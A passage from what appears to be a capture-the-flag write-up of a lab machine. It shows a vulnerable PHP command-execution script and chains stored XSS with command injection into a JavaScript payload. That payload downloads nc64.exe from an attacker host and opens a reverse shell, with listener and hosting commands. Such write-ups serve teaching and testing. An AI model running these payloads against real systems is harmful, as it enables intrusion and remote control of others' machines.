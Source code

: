 ```php
		if($_SERVER['REMOTE_ADDR'] == "::1"){
			system($_POST['cmd']);
		} else{
			echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
		}
	}
} else{
	echo "You are not allowed to use this function!";
}
?>
```

The script performs a basic authentication check for admin's credentials. Then, it checks if the supplied command starts with `dir`. It also tries to prevent command injection by filtering characters like `$(` and `&`, but we can also use `|` & `;` to chain commands. 


The real question is how can we execute commands through the localhost interface? The only possible way I see of doing this, is through the use of the XSS vulnerability we found earlier.


Instead of stealing the admin's cookies, this time, we will make him make a POST request to the `backdoorchecker.php` script with a reverse shell payload added. We will then host this script via a python web server and send another trasnfer request. 


The JavaScript code should look like this:

```javascript
var request = new XMLHttpRequest();
var params = 'cmd=dir|powershell -c "iwr -uri 10.10.14.89/nc64.exe -outfile %temp%\\n.exe"; %temp%\\n.exe -e cmd.exe 10.10.14.89 443';
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
request.send(params);
```

I save this script to a file in my working directory. Then I grab a copy of `nc64.exe` to my working directory as well, and I host both files via a python server:

```bash
python3 -m http.server 80
```

Then, I start my local listener with:

```bash
rlwrap nc -lnvp 443
```

And finally, I create another transfer request, with the following comment:

```html
<script src="http://10.10.14.89/htb.js"></script>
```

After a couple of seconds I get the connections to my python server:
